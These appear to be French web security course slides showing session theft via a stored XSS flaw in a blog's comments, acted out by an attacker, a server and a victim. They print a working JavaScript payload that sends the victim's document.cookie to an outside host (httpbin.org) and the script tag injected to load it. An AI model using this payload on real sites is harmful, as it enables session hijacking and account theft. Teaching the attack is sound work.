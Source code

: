 </section>
<section id="stored-xss-1">

## Exemple : vol de session

1. L'attaquant dispose de domaines qu'il contrôle, par exemple :
   
   - `http://cdn.rawgit.com/`,
   - `http://httpbin.org/`.
   {:.att}
   
   Il sert le script suivant à <http://cdn.rawgit.com/defeo/aws-security/master/xss.js>
   
   ~~~
   document.body.innerHTML +=
     '<img src="http://httpbin.org/get?ck=' + document.cookie + '">';
   ~~~
   {:.att}

**Note :** ce script est complètement inoffensif si servi par
Athanase : 

{::nomarkdown}
<input type="text" class="address cli" value="http://cdn.rawgit.com/defeo/aws-security/master/xss.html">
<iframe class="window cli" src=""></iframe>
{:/nomarkdown}

<script>
  sessionStorage[window.location.host + '.sessid'] = Math.random().toString().substr(2);
  $('#stored-xss-1 .address').on('keydown', function(e) {
    $('#stored-xss-1 .window').src = e.target.value;
  });
</script>
</section>
<section id="stored-xss-2">

## Exemple : vol de session

2. <span class="srv">Servane</span> a une *faille XSS permanente* dans
   son blog : les commentaires peuvent être injectés avec des balises
   `<script>`.

3. <span class="att">Athanase</span> injecte le code suivant dans
   `http://blog.servane.org/`{:.srv}
   
   ~~~
   <script src="http://cdn.rawgit.com/defeo/aws-security/master/xss.js"></script>
   ~~~
   {:.compact}

4. <span class="cli">Clélie</span> visite le blog de Servane. Le
   script de Athanase s'exécute, et envoie les cookies de Clélie (y
   compris **son identifiant de session**) à
   `http://httpbin.org`{:.att}.
{: start="2"}
